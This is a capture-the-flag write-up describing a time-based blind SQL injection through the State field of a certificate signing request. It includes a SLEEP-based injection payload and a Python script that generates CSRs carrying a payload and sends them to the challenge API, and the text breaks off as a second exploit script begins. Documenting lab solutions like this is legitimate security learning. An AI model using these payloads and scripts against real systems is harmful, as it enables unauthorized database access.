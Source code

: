 When creating a CSR and sending it, one field reacted differently with sepecial characters. When including a single quote in this field during the CSR creation, an error 500 would be returned. This hint already at SQL injection and could be proved by sending the following payload (in the State field of the CSR):
```
'OR((SELECT SLEEP(5)))OR'
```

The response would come correctly with a certificate signed by the CA but with a 5 seconds delay. Thus proving the time-based blind SQL injection. At this step I made a small tool to generate the CSR with a given payload and send the query automatically in python, `query_csr.py`:
```python
#!/usr/bin/env python3

from OpenSSL import crypto, SSL
import sys
import requests

TYPE_RSA = crypto.TYPE_RSA
TYPE_DSA = crypto.TYPE_DSA

# adapted from https://github.com/pyca/pyopenssl/blob/master/examples/certgen.py
def create_CSR(pkey, payload, digest="sha256"):
    req = crypto.X509Req()
    subj = req.get_subject()

    setattr(subj, 'ST', payload)

    req.set_pubkey(pkey)
    req.sign(pkey, digest)
    return req

# statically defined key
key_str = """-----BEGIN RSA PRIVATE KEY-----
[CUT BY trolli101]
-----END RSA PRIVATE KEY-----
"""
key = crypto.load_privatekey(crypto.FILETYPE_PEM, key_str)

# generate CSR with argument 1 as payload
csr = create_CSR(key, sys.argv[1])
csr_str = crypto.dump_certificate_request(crypto.FILETYPE_PEM, csr).decode()

# send request and display status code and response
r = requests.post('http://challenges.hackvent.hacking-lab.com:1088/php/api.php?function=csr&argument=&key=E7g24fPcZgL5dg78', data = {'csr':csr_str})
print('=== {} ==='.format(r.status_code))
print(r.text)
```

Then I tried to develop a custom tamper script for sqlmap, this was successful to detect the injection but the exploitation failed because of the length limitation of the State field (128 characters). I did not find a way to limit the payload size in sqlmap so I developed a custom script to exploit the blind injection based on the previous script:
```python
#!/usr/bin/env python3

import requests
import time
import math
import sys
from OpenSSL import crypto, SSL

TYPE_RSA = crypto.TYPE_RSA
TYPE_DSA = crypto.TYPE_DSA
```